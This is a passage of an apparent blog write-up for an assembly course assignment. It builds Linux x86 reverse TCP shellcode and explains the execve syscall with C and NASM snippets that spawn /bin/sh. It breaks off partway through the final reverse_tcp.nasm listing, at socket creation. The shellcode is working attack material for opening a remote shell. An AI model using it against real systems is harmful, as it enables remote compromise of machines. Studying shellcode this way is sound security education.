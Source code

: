 The first argument should be the program name; the second should be an array containing the program name and arguments. The last argument should be the environment data.

[man 2 execve](http://man7.org/linux/man-pages/man2/execve.2.html)

{% highlight c %}
int execve(const char *pathname, char *const argv[], char *const envp[]);
{% endhighlight %}

{% highlight c %}
execve(SHELL, NULL, NULL);
{% endhighlight %}

{% highlight console %}
kecebong@ubuntu:~$ grep execve /usr/include/i386-linux-gnu/asm/unistd_32.h
#define __NR_execve              11
{% endhighlight %}

{% highlight c linenos %}
    // http://man7.org/linux/man-pages/man2/execve.2.html
    // Execute the program SHELL /bin/bash
    execve(SHELL, NULL, NULL);
{% endhighlight %}

{% highlight nasm linenos %}
execve:
    ; execve
    push byte 0x0b          ; execve = 11 ~ 0x0b
    pop eax                 ; eax = 0x0b

    ; arg execve(SHELL, NULL, NULL);
    xor ecx, ecx            ; zeroing ecx
    push ecx                ; null
    push ecx                ; null
    push 0x68732f2f         ; "hs//""
    push 0x6e69622f         ; "nib/"
    mov ebx, esp            ; copy arguments on the stack to ecx
    int 0x80
{% endhighlight %}

## The Final Assembly Code

Putting all pieces together, this is the second assignment solution in assembler.

{% highlight nasm linenos %}
; reverse_tcp.nasm

global _start

section .text

_start:
    ; zeroing the registers
    xor ecx, ecx        ; ecx = 0
    mul ecx             ; eax = 0
    cdq                 ; xor edx, edx

socket:
    ; create a socket
    ; server_sock = socket(AF_INET, SOCK_STREAM, 0);
    ; 
    ; eax : socketcall = 102 ~ 0x66
    ; ebx : SYS_SOCKET = 1 ~ 0x01
    ; ecx : args = esp (AF_INET = 0x02, SOCK_STREAM = 0x01, PROTOCOL = 0x00)
    ;
    ; socketcall
    push byte 0x66      ; socketcall 102 ~ 0x66 
    pop eax             ; eax = 0x66
    push byte 0x01      ; SYS_SOCKET = 1